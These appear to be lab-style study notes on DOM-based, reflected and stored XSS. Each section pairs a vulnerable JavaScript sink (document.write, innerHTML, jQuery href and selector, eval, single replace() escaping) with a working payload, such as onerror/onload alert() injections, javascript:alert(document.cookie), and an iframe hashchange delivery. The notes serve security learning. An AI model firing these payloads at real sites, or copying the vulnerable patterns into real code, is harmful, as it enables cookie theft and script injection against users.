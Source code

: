 # Function that uses "document.write()" and concatenation of the input string

### Scenario

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
With the document.write function it writes the "img" tag with the specified "src" parameter. In it there is a concatenation with the parameter that the user give to the page.

The parameter is taken from window.location.search and the parameter name is "search". If the is not empty then the JS function "trackSearch" is called.

N.B.: the window.location.search take anything which comes after the question mark in the URL.

In the DOM the passed element is displayed in the "img" tag created by the JS function:
```html
<img src="/resources/images/tracker.gif?searchTerms=test">
```

### Exploitation

We can pass this string as input:

```
test" onload=alert()
```

Here, what happens is the following:
- The img tag is created as shown before;
- Now, due to the presence of " we are able to break the string automatically created by the JS function;
- The image is actually loaded, but given the presence of the onload action we inserted, the action specified in it will be perfomed after the image loading;
- We inserted the alert() function in the onload action, so we expect to see an alert box on the web page;
- We cannot close the " because there is that already inserted by the JS function.

The HTML resulting from this input is the following:
```html
<img src="/resources/images/tracker.gif?searchTerms=test" onload=alert()">
```

# INNER.html sink using source "location.search"

### Scenario

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This JS code snippet takes the input string with "window.location.search" and takes the parameter called "search".

This string is passed to the JS function and used with the innerHTML.

DOM in which the input is diplayed:

```html
<span id="searchMessage">uniquetest</span>
```

In innerHTML if we pass a <script> tag it won't be executed. This is a security feature. So we need to pass something else.

### Exploit
We can use:
```
<img src='0' onerror=alert()>
```
The src provided will cause an error and onerror we load the alert() function.
As we seen before the "script" tag is not executed but not the "img" tag.

The DOM modified is the following:
```html
<span id="searchMessage">
    <img src="0" onerror="alert()">
</span>
```

# DOM XSS in JQuery anchor href attribute sink using location.search source

### Scenario
JQuery is a JS framework with a little bit different syntax from vanilla JS.

```html
<a id="backLink" href="/">Back</a>
```

This back link on the page, redirect the users to the previous page.

The href is populated by a JQuery script.

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

- $('#backLink') this select the element with the id="backLink";
- attr("href") go inside the attribute href in the selected ID;
- Assign to this attribute the value retrieved from the URL parameter called "returnPath".

### Exploit
If we have an anchor tag (<a>) and inside the href parameter of it we have "javascript:SOMEJS", SOMEJS will be executed directly.


We can assign to the returnPath URL parameter something like this:
```
javascript:alert(document.cookie)
```

Resulting DOM:
```html
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

When we will click on the link on the web page, the JS will be executed. We will get an alert with the cookie shown inside.

# JQuery selector sink using hashchange

### Scenario

In the page source, we can see the following JS script:
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

What's an **hashchange event**?
You can put an hashtag (#) at the end of the url followed by a number or a word.
It's often used as bookmarking functionality.

The JS function showed creates a variable called "post".
It assign to the variable the content of the h2 tag which contains the value of the hashchange we pass to the URL parameter contained inside the section "blog-list".

Clearly, the "contains" method search for a value that we can manipulate.

N.B.: **In some version of JQuery the function "contains" may behave as unexpectedly**. So, if we try to give to it the argument ```<h1> somethingUNIQUE </h1>``` and print the variabile "post" we may notice that post variable contains our h1 tag.
**In other words, the contains method created the object passed as argument to it.**
This DOM element isn't inserted in the page, but it's a **detached DOM element**.

We can give it a parent node, so, in other words, we can attach in to the DOM of the web page:

```javascript
var mynode = document.getElementById("something");
mynode.appendChild(post)
```

### Exploit

We can exploit the vulnerability above, by using a tag like "<img>" and forcing it to the error and hen using a onerror functionality.

```javascript
let myimg = document.createElement('img')
myimg.src = 0 //nosense value of the src
```

We can pass it as payload:

```html
<img src=0 onerror='alert()'>
```

In this case we can avoid to attach this img tag to the web page DOM because we can notice from the network connection panel of our browser that it calls immediatly the "src" location although this "img" tag isn't attached to the DOM of the web page.

In some case, we can deliver a simiilar payload using **"iframe"**:
```html
<iframe src="https://theVulnerablePageURL/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This code load the vulnerable page inside a box (the iframe) and then append to the URL in the src field the hashchange value which exploits the vulnerability.

# DOM XSS in document.write sink using source location.search inside a select element

### Scenario

We have a **shop page** with different products. If we scroll down, after entering one product page, we notice that there is a dropdown box with different location which represents different stocks.

```html
<select name="storeId">
    <option>London</option>
    <option>Paris</option>
    <option>Milan</option>
</select>
```
Above that select element there is a JS script:

```javascript
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

In this code, an array is created and assign to a variable. The array has three elements.
Another variable take the value contained inside the URL parameter "storeId".
If a value is passed and the value passed is not already in the array, the JS created it and append it to the array.

### Exploit
We can add a URL parameter like this:
```
URL/productId="1"&storeId=test</select>
```

The select will break the DOM.

Complete exploit:
```
URL/productId="1"&storeId=test</select><img src="1" onerror="alert()">
```

The resulting DOM after the exploit is:
```html
<select name="storeId">
    <option selected="">test</option>
</select>
<img src="1" onerror="alert()">
<option>London</option>
<option>Paris</option>
<option>Milan</option>
```

# Reflected DOM XSS, function "eval()" JS


### Scenario
We had a JS function with an "eval()" funciton usage inside. From the JS documentation:

```The eval() function evaluates JavaScript code represented as a string and returns its completion value. The source is parsed as a script. Warning: Executing JavaScript from a string is an enormous security risk. It is far too easy for a bad actor to run arbitrary code when you use eval().```

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
```

We can send our term in the URL parameter "search".
Because it uses an AJAX GET request, we can intercept it with Burp suite.

### Exploit
We can break the eval content with something like ```test"-alert()```. We notice that an escaping of the " character is done automatically. So we can "escape the escape character" with something like this: ``` \"-alert(1)}// ```.

As you have injected a backslash and the site isn't escaping them, when the JSON response attempts to escape the opening double-quotes character, it adds a second backslash. The resulting double-backslash causes the escaping to be effectively canceled out. This means that the double-quotes are processed unescaped, which closes the string that should contain the search term.
An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object.


# Both stored and DOM based XSS, incorrect use of replace() function in JS

### Scenario
We have a blog, which different articles. Each of one, allow you to comment. Analyzing page, you can found that a JS function is used to replace "<" and ">" with the related HTML encoding.

```javascript
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

If we check the documentation of the replace() function we can see that:
The replace() method of String values returns a new string with one, some, or all matches of a pattern replaced by a replacement. The pattern can be a string or a RegExp, and the replacement can be a string or a function called for each match. **If pattern is a string, only the first occurrence will be replaced**. The original string is left unchanged.

### Exploit
We can give a payload like: ```<h1><img src=0 onerror=alert()></img>```


